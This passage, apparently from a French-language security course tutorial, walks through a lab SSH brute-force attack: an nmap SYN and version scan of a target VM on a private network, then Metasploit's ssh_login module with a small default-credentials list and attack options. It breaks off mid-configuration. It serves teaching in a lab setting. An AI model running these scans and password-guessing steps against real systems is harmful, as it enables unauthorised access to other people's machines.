 #### Explication des commandes
- `ifconfig` : Affiche les informations réseau, y compris l'adresse IP de votre machine.
- `nmap -sS -sV [adresse IP de la cible]` :
  - `-sS` : Effectue un scan SYN, qui est une méthode courante pour détecter les ports ouverts.
  - `-sV` : Identifie les versions des services en cours d'exécution sur les ports ouverts.

#### Étape 2: Scanner les ports ouverts de la machine cible
1. Sur Kali Linux, effectuez un scan Nmap pour identifier les ports ouverts sur la machine cible. Par exemple, si l'adresse IP de la machine cible est `192.168.0.5` :
    ```bash
    nmap -sS -sV 192.168.0.5
    ```
   Cela vous donnera la liste des ports ouverts et des services qui y sont associés. Recherchez spécifiquement le port 22/tcp qui est utilisé par le service SSH.

- Par exemple, j'ai scanné une machine windows 10 qui est sur le même natnetwork de notre machine Kalilinux (connectés via un naatnetwork)

![image](https://github.com/hrhouma/prevention-securite-de-linformation/assets/10111526/c1b39a58-f4f9-4d6a-84f6-a0bd41ba4282)


#### Étape 3: Configuration de Metasploit
1. Ouvrez la console Metasploit :
    ```bash
    msfconsole
    ```
2. Recherchez le module `ssh_login` :
    ```bash
    search ssh_login
    ```
3. Utilisez le module `auxiliary/scanner/ssh/ssh_login` :
    ```bash
    use auxiliary/scanner/ssh/ssh_login
    ```
4. Affichez les options du module :
    ```bash
    show options
    ```

#### Étape 4: Préparation du fichier de mots de passe
1. Créez un fichier de mots de passe nommé `passwords.txt`. Par exemple :
    ```plaintext
    msfadmin msfadmin
    root toor
    user 123456
    admin admin
    ```
   Sauvegardez ce fichier dans un répertoire de votre choix sur la machine Kali Linux, par exemple `/home/user/passwords.txt`.

#### Étape 5: Configuration des options de l'attaque
1. Définissez l'adresse IP de la cible (RHOST) :
    ```bash
    set RHOST 192.168.0.5
    ```
2. Définissez le nombre de threads pour accélérer l'attaque :
    ```bash
    set THREADS 3
    ```
3. Arrêtez l'attaque après un succès :
    ```bash
    set STOP_ON_SUCCESS true
    ```
4. Activez les sorties verbales pour voir les tentatives :